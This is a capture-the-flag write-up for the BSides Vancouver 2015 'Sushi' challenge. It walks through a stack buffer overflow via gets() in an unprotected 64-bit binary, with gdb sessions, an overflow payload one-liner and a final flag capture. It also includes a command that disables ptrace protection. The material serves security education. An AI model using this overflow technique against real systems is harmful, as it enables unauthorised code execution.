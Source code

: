 # Vancouver BSides CTF 2015: Sushi

**Category:** Ownable
**Points:** 100
**Solves:** 101
**Description:** 

> sushi.termsec.net 4000
> 
> Sushi is great in Vancouver. It's cheap, it's delicious, and it's everywhere.
> 
> Read flag.txt
> 
> [sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8](sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8)

## Write-up

This writeup is based on following writeups:

* <https://github.com/yvrctf/2015/tree/master/sushi>
* <https://rotlogix.com/2015/03/18/vancouver-bsides-ctf-sushi/> (down) ([cached](https://web.archive.org/web/20150625064545/http://rotlogix.com/2015/03/18/vancouver-bsides-ctf-sushi/)) or <http://www.tuicool.com/articles/uieaeaq>
* <http://capturetheswag.blogspot.com.au/2015/03/vancouver-bsides-2015-sushi-pwnable.html>
* <https://ctf-team.vulnhub.com/bsides-vancouver-2015-sushi/> or <http://barrebas.github.io/blog/2015/03/18/bsides-vancouver-ctf-sushi/>
* <https://akshayswebspace.wordpress.com/tag/writeup/>

### Meta

Keywords:

* Stack Overflow in `gets`

We are given a stripped x86-64 bit for Linux:

```bash
$ file sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 
sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=ecf8d3deb9274a9ce4ab4532469a1f3027534d92, stripped
```

Running it:

```bash
$ ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 
Deposit money for sushi here: 0x7fff53177780
100
Sorry, $0.49 is not enough.
```

`checksec` tells us that no security is enabled:

```bash
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

Since `NX` is disabled, we might be able to push shellcode to the stack using a stack overflow and execute it.
However, we might have to deal with ASLR.

Decompiling the binary's `main` using `radare2`:

![](./main.png)

Since the binary is stripped, we don't see any other functions that might be of interest:

```bash
[0x004004a0]> aa
[0x004004a0]> afl | sort -k1 | column -t
0x00400450  16  2  sym.imp.printf
0x00400460  16  2  sym.imp.__libc_start_main
0x00400480  16  2  sym.imp.gets
0x00400490  16  2  sym.imp.fflush
0x004004a0  42  1  entry0
0x00400596  93  1  main
```

Having the [64-bit C calling convention order](http://stackoverflow.com/a/4266083) in mind, the code becomes pretty straightforward:

```C
&buf = rbp-0x40;
printf("Deposit money for sushi here: %p\n",buf);
fflush(0); // 0 == stdin
buf = gets(buf);
printf("", "Sorry, $0.%d is not enough.\n", buf[0]);
fflush(0);
```

This tells us two things:

* The address to our input buffer is leaked, rendering ASLR irrelevant
* Since `gets` is used without any preceding input length check, we can smash the stack and overwrite the return instruction pointer RIP to point to our shellcode

We test our hypothesis:

* Set `ulimit -c unlimited` to create core dumps after a segementation fault. [Source](http://stackoverflow.com/questions/2919378/how-to-enable-core-dump-in-my-linux-c-program) and [here](https://wiki.archlinux.org/index.php/Core_dump)
* `echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope` - Didn't work without - used it to make gdb attach work [Source](http://askubuntu.com/questions/41629/after-upgrade-gdb-wont-attach-to-process)
* Overflow the buffer, generating a core dump:
```bash
$ python -c 'print "A"*0x40+"ARBPARBP"+"BBBBCCCC"' | ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8                                           
Deposit money for sushi here: 0x7fff11e90620
Sorry, $0.65 is not enough.
Segmentation fault (core dumped)
$ ls
core  peda-session-sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8.txt  sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8
$ file core
core: ELF 64-bit LSB  core file x86-64, version 1 (SYSV), SVR4-style, from './sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8'
```
* Analyse it using gdb: `gdb -q ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 core`:
```bash
$ gdb -q ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 core

Reading symbols from ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8...(no debugging symbols found)...done.

warning: core file may not match specified executable file.
[New LWP 2468]
Core was generated by `./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00000000004005f2 in ?? ()
gdb-peda$ x/i $rip
=> 0x4005f2:    ret    
gdb-peda$ x/2wx $rsp
0x7fff11e90668: 0x42424242      0x43434343
```

We see that a Segmentation fault happened at the `ret` instruction of our main function. `rsp` points at the next address that `rip` has to jump to, which is (64 bit == 8 bytes address) `0x4242424243434343` (Hope I got the order right).

You can also just load the binary in `gdb-peda`, run it, provide it with the payload string `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAARBPARBPBBBBCCCC` and see what our stack at the end (last 2 instructions) of the main function:

```bash
$ gdb ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 
Reading symbols from ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8...(no debugging symbols found)...done.
gdb-peda$ b *0x004005f1
Breakpoint 1 at 0x4005f1
gdb-peda$ r
Starting program: /home/vbox/pwn/tasks/bsides/sushi/sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 
Deposit money for sushi here: 0x7fffffffe390
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAARBPARBPBBBBCCCC
Sorry, $0.65 is not enough.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
[...]
RBP: 0x7fffffffe3d0 ("ARBPARBPBBBBCCCC")
RSP: 0x7fffffffe390 ('A' <repeats 65 times>, "RBPARBPBBBBCCCC")
RIP: 0x4005f1 (leave)
[...]
[-------------------------------------code-------------------------------------]
   0x4005e2:    mov    edi,0x0
   0x4005e7:    call   0x400490 <fflush@plt>
   0x4005ec:    mov    eax,0x0
=> 0x4005f1:    leave  
   0x4005f2:    ret    
   0x4005f3:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4005fd:    nop    DWORD PTR [rax]
   0x400600:    push   r15
[...]
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe390 ('A' <repeats 65 times>, "RBPARBPBBBBCCCC")
[...]
gdb-peda$ x/20wx $rbp
0x7fffffffe3d0: 0x50425241      0x50425241      0x42424242      0x43434343
[...]
gdb-peda$ ni
[...]
RBP: 0x5042524150425241 ('ARBPARBP')
RSP: 0x7fffffffe3d8 ("BBBBCCCC")
RIP: 0x4005f2 (ret)
[...]
[-------------------------------------code-------------------------------------]
   0x4005e7:    call   0x400490 <fflush@plt>
   0x4005ec:    mov    eax,0x0
   0x4005f1:    leave  
=> 0x4005f2:    ret    
   0x4005f3:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4005fd:    nop    DWORD PTR [rax]
   0x400600:    push   r15
   0x400602:    mov    r15d,edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe3d8 ("BBBBCCCC")
gdb-peda$ ni
[...]
Stopped reason: SIGSEGV
```

You'll see that `leave` is correspondent to "Move saved `rbp` to `rsp`", meaning `mov rsp, [rbp+8]` and `ret` is correspondent to `pop rip`.

All that's left to do now is find a shellcode that fits for `gets` (function is null byte `\x00` friendly), which is smaller than `0x48`==`72` bytes and set RIP to our input buffer address, leaked by the program itself!

[This python script](./solve.py) does the job:

```bash
$ p solve.py 
[+] Started program './sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8'
[*] Switching to interactive mode
Sorry, $0.49 is not enough.
$ cat flag.txt
flag{I_l3ft_my_wallet_in_#irc}
[*] Stopped program './sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8'
```


## Other write-ups and resources

* <https://github.com/yvrctf/2015/tree/master/sushi>
* <https://rotlogix.com/2015/03/18/vancouver-bsides-ctf-sushi/> (down) ([cached](https://web.archive.org/web/20150625064545/http://rotlogix.com/2015/03/18/vancouver-bsides-ctf-sushi/)) or <http://www.tuicool.com/articles/uieaeaq>
* <http://capturetheswag.blogspot.com.au/2015/03/vancouver-bsides-2015-sushi-pwnable.html>
* <https://ctf-team.vulnhub.com/bsides-vancouver-2015-sushi/> or <http://barrebas.github.io/blog/2015/03/18/bsides-vancouver-ctf-sushi/>
* <https://akshayswebspace.wordpress.com/tag/writeup/>
* [Japanese](http://mage-ctf-writeup.blogspot.jp/2015/03/b-sides-vancouver-2015.html)
* [Japanese 2](http://charo-it.hatenablog.jp/entry/2015/03/18/234404)
* [Korean?](http://revers3r.tistory.com/27)
* [Korean](http://s0ngsari.tistory.com/entry/yvrctfPwnable-100)
* <http://captf.com/2015/bsides-vancouver/ownable/sushi-psifertex-solve.py>
* <https://gist.github.com/emyei/248ccf0aa4b773aa17a7>
* <http://smleenull.tistory.com/521>